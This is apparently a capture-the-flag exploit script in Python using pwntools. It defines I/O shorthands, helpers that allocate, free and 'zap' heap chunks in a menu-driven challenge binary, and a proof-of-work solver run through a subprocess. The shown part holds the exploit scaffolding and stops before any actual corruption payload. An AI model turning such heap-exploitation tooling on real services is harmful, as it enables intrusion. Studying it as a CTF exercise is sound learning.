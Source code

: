 ```py

se  = lambda data  : p.send(data)
sl  = lambda data  : p.sendline(data)
sa  = lambda ip,op : p.sendafter(ip,op)
sla = lambda ip,op : p.sendlineafter(ip,op) 
rvu = lambda data  : p.recvuntil(data)
rvl = lambda       : p.recvline()
rv  = lambda nbyt  : p.recv(nbyt)

# >>>>>>>>>>>>>>>>[EXPLOIT STARTS HERE]>>>>>>>>>>>>>>>>>>>>

# context.aslr = False

count = 0
freed = ["" for i in range (0x7f)]

def malloc(cname,size,stuff,norecv=0):
    global count
    sla(b":",b"0")
    sla(b":",str(size).encode())
    sa(b": ",stuff)
    if(norecv != 1):
        rvu(b":")

    i = 0 
    while(freed[i] != ""):
        i += 1
    freed[i] = cname

    count += 1
    print(count)

def free(cname):
    idx = 0 
    while(freed[idx] != cname):
        idx += 1
    
    sla(b":",b"1")
    sla(b":",str(idx).encode())
    
def zap(cname):
    idx = 0 
    while(freed[idx] != cname):
        idx += 1
    
    sla(b":",b"2")
    sla(b":",str(idx).encode())
    
p = start()

# POW
if args.RE:
    rvl()
    rvl()
    rvl()
    rvu("solve ")
    p1 = "python3"
    p2 = rvl().decode()[:-1:]

    proc = [p1,"pow.py","solve",p2]
    print(proc)
    x = subprocess.run(proc, capture_output=True)
    print(x.stdout)
```